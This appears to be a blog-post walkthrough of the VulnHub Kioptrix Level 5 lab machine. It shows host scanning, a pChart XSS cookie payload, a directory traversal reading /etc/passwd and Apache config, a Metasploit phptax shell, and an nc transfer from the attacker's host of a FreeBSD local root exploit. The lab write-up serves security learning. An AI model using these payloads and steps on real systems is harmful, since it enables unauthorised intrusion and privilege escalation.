 ```yaml
---
layout: post
title: Kioptrix Level 5 (2014)
---
```

[Kioptrix Level 5 (2014)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

## Find IP of box
Our IP: x.x.x.49

`nmap -sP <LHOST>/24`

Kioptrix is running x.x.x.16

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.16`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL5/NMap1.JPG)
 
 There are 3 ports open: 22 (ssh), 80 (http), 8080 (http)
 
 However, the ssh port is closed so we cannot connect
  
 ## HTTP
 
 If we check the source code of port 80, the meta tag has been left in and gives us a url path: `pChart2.1.3/index.php`
 
 ### Searchsploit
 
 `searchsploit pchart 2.1.3` and we get a txt file containing explanations of multiple explanations such as directory traversal and XSS
 
 ### XSS

`/pChart2.1.3/examples/sandbox/script/session.php?id=<script>alert(document.cookie)</script>`
 
 ### Directory Traversal
 
Append `?Action=View&Script=/../../etc/passwd` to the url (after index.php) to view etc/passwd but no hashes to be cracked

We can use to view apache config files located in `/usr/local/etc/apache22/httpd.conf`

Looking through this, we can see that the web server on port 8080 must use the Mozilla/4.0 user agent

`SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser`
`<VirtualHost *:8080>`

We can do this by capturing the request in Burp Suite and changing the 5.0 to 4.0 in the user agent 

If we follow the phptax link, we find some tax forms containing sensitive information.

It seems there'll be a lot of clicking and to continuously keep changing the user agent in burp suite is tedious. I'm going to change it in firefox.

go to `about:config`, right click and select new > string. Call it `general.useragent.override` and enter in the value `Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0`

Now we can navigate normally.

## MSFConsole

If we search on msfconsole for 'phptax', there's an exploit we can use

`set rhost x.x.x.16`
`set rport 8080`
`run`

To upgrade our shell, we can run `/bin/sh -i`

To get system info, we can type `uname -a` and we know our OS is FreeBSD 9.0

`searchsploit freebsd 9.0` on our local machine and we get a couple of local exploits, however, this means we must transfer the exploit onto the victim machine.

The system doesn't have `wget`, my usual method of transfer but we are able to run `nc`

Our machine: `nc -lvnp 4444 < 26368.c`

Victim machine: `nc x.x.x.49 4444 > exploit.c`

When it connects, end the connection on our end and run `gcc -o exploit exploit.c` on the victim

`chmod 777 exploit`

`./exploit` We become root and we can read the congrats.txt in /root
